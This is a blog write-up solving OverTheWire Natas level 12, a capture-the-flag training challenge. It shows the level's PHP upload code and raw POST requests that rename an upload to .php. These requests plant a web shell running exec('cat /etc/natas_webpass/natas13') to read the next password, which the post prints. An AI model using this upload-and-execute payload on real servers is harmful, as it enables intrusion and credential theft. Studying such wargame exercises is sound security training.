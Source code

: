 ```yaml
---
layout: post
title:  "OverTheWire Wargames :: Natas :: Level 12"
date:   2015-09-19
---
```


[OverTheWire: Natas](http://overthewire.org/wargames/natas/)

# Level 12 > Level 13

![natas12-01](/img/otw-natas/natas12-01.png)

```
[...]
<h1>natas12</h1>
<div id="content">
<? 

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

```

Run it once normally to see how it behaves.  Uploading a tiny image of a Thor hammer I found online results in the following POST request body and response.

```
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="filename"

u117acfgc6.jpg
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="uploadedfile"; filename="thor.jpg"
Content-Type: image/jpeg

[...]
-----------------------------58323604319210243021201378353--
```

```
<h1>natas12</h1>
<div id="content">
The file <a href="upload/qtqgaelc6b.jpg">upload/qtqgaelc6b.jpg</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

A visit to `upload/qtqgaelc6b.jpg` confirms the image was uploaded as intended.

![natas12-02](/img/otw-natas/natas12-02.png)

The name `u117acfgc6.jpg` was generated by the following line of code in the page.

```
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
```

It is passed to the server in the POST request, meaning we can submit our own value rather than what would be returned by `genRandomString()`.  Also, this means we don't need to use `.jpg` as the extension.  There is no evidence to suggest that the file is verified to be a `jpg` in any way, either.

Test this theory by uploading and viewing a text file.

```
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="filename"

himom.txt
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="uploadedfile"; filename="thor.jpg"

hi mom
-----------------------------58323604319210243021201378353--
```

```
<div id="content">
The file <a href="upload/z2xt622p6y.txt">upload/z2xt622p6y.txt</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

![natas12-03](/img/otw-natas/natas12-03.png)

The next thing to wonder is if we can 'upload' a php file and execute it...

```
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="filename"

shitsgoingdown.php
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="uploadedfile"; filename="thor.jpg"

<?php phpinfo(); ?>
-----------------------------58323604319210243021201378353--
```

```
<div id="content">
The file <a href="upload/hhbhtomk6e.php">upload/hhbhtomk6e.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

![natas12-04](/img/otw-natas/natas12-04.png)

Yep, it's over.

```
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="filename"

ohcrap.php
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="uploadedfile"; filename="thor.jpg"

<?php echo exec("cat /etc/natas_webpass/natas13"); ?>
-----------------------------58323604319210243021201378353--
```

```
<div id="content">
The file <a href="upload/a7vs4em78m.php">upload/a7vs4em78m.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

![natas12-05](/img/otw-natas/natas12-05.png)

jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

Thanks to my co-worker Dejan who said something like "I wonder if you can upload a PHP file?!" near me while I was doing this.
